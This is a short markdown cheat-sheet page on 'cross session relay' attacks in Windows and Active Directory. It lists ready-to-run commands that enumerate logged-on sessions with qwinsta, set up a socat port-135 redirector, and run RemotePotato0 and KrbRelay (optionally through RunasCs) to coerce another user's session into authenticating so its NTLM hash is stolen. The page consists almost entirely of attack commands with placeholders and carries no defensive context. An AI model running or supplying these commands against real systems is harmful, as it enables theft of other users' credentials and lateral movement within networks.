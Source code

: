 ```yaml
---
title: "Cross Session Relay"
date: 2024-8-2
tags: ["Ntlm", "Pass-The-Hash", "Authentication", "Cross Session Relay", "Active Driectory", "Windows", "Krbrelay", "Remotepotato0"]
---
```


### Display information about the session host

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
qwinsta *
```

```console
# Or runas
.\RunasCs.exe x x qwinsta -l 9
```

{{< /tabcontent >}}

---

### Abuse #1: Steal NTLM hash

{{< tab set2 tab1 active >}}RemotePotato0{{< /tab >}}
{{< tab set2 tab2 >}}KrbRelay{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Redirect auth request back to target

```console
# In local Linux 
sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:<TARGET>:<RELAY_PORT>
```

#### 2. Trigger auth request

```console
.\RemotePotato0.exe -m 2 -s <TARGET_SESSION_ID> -x <LOCAL_IP> -p <RELAY_PORT>
```

<small>*Ref: [RemotePotato0](https://github.com/antonioCoco/RemotePotato0)*</small>

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

#### 1. All-in-one

```console
.\KrbRelay.exe -session <TARGET_SESSION_ID> -clsid 0ea79562-d4f6-47ba-b7f2-1e9b06ba16a4 -ntlm
```

```console
# Or runas
.\RunasCs.exe x x -l 9 "C:\ProgramData\KrbRelay.exe -session <TARGET_SESSION_ID> -clsid 0ea79562-d4f6-47ba-b7f2-1e9b06ba16a4 -ntlm"
```

<small>*Ref: [KrbRelay](https://github.com/cube0x0/KrbRelay)*</small>

{{< /tabcontent >}}
